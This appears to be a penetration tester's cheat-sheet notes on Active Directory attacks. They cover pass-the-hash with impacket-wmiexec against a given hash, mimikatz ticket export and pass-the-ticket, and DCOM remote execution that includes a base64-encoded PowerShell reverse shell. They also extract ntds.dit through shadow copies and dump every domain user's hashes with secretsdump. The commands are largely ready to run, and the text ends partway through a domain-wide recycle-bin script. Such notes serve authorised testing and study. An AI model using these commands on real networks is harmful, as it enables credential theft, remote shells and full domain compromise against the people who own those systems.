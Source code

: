 > NOTE: **this method works for AD domain accounts and the built-in local `Administrator` account.** After a 2014 security update, this technique cannot be used to authenticate as any other local admin account. 

Attack:
`impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C123E Administrator@192.168.50.73`

### Overpass the Hash
No special commands; see [[War Plan Gold (AD)]] for technique.

### Pass the Ticket
``` PowerShell
sekurlsa::tickets /export # Dump tickets

dir *.kirbi # Filter for TGS files
# Import ticket (ideally from a user other than your own)
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
- `klist` to verify ticket import. Verify access, e.g., `ls \\web04\backup`

#### DCOM
- User must be a local admin on the target machine; DCOM (TCP 135) open
```PowerShell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73")) # Modify IP to target machine

# Simple RCE
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

# Reverse Shell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
---
### Shadow Copies
Must be **Backup Operator** or **Domain Admin**. We will get 2 things: `ntds.dit` file and SYSTEM hive file
```PowerShell
vshadow.exe -nw -p C:
# Note the "Shadow copy device name". Append `\windows\ntds\ntds.dit` to it. Example in Step 2 below.
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak` # Run this in Administrative cmd.exe (saves AD database to location)
reg.exe save hklm\system c:\system.bak # Run in Administrative cmd.exe
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL # Outputs NTLM hashes and Kerberso key for every AD user
```

---
### AD Recycle Bin (to CSV)
```PowerShell
# List of target computers
$Computers = Get-ADComputer -Filter * | Select-Object -ExpandProperty Name

foreach ($Computer in $Computers) {
    Invoke-Command -ComputerName $Computer -ScriptBlock {
        Get-ChildItem -Path 'C:\$Recycle.Bin' -Force -Recurse |
        Select-Object FullName, Length, LastWriteTime
    } -ErrorAction SilentlyContinue
}

$Results = foreach ($Computer in $Computers) {
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami